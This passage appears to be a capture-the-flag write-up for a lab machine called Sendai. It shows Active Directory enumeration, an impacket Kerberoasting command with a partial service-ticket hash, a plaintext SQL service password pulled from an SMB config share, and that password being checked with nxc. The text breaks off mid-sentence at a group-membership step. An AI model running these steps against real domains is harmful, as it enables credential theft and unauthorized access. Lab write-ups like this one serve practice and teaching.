     INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc.sendai.vl
    INFO: Done in 00M 26S

All Kerberoastable Users fastly ;)

![img-description](/assets/images/1 (2).png)

### GetUserSPNs

    ➜  sendai impacket-GetUserSPNs -request -dc-ip DC sendai.vl/Elliot.Yates

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    Password:
    ServicePrincipalName  Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
    --------------------  ------  --------  --------------------------  --------------------------  ----------
    MSSQL/dc.sendai.vl    sqlsvc            2023-07-11 05:51:18.413329  2025-01-13 16:47:45.680311             



    [-] CCache file is not found. Skipping...
    $krb5tgs$23$*sqlsvc$SENDAI.VL$sendai.vl/sqlsvc*$de9681aefbd0f6bbd7c4e5cab5c20a8f$5509e7e86324d957519c9b69a5005fca0f5c2245c6d87f7228e573ad416c2f0afe84a33b3.....

but its not crackable.

#### config share

    ➜  sendai smbclient \\\\DC\\config -U Elliot.Yates
    Password for [WORKGROUP\Elliot.Yates]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Mon Jan 13 17:09:35 2025
    ..                                DHS        0  Wed Jul 19 10:11:25 2023
    .sqlconfig                          A       78  Tue Jul 11 08:57:11 2023

                    7309822 blocks of size 4096. 846745 blocks available
    smb: \> get .sqlconfig 
    getting file \.sqlconfig of size 78 as .sqlconfig (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
look at this file
    ➜  sendai cat .sqlconfig
    Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;#

    ➜  sendai nxc smb DC -u sqlsvc -p 'SurenessBlob85' --shares
    SMB         10.10.65.237    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
    SMB         10.10.65.237    445    DC               [+] sendai.vl\sqlsvc:SurenessBl<redacted>

![alt text](<../assets/images/2 (3).png>)

so lets add urself at ADMSVC its because
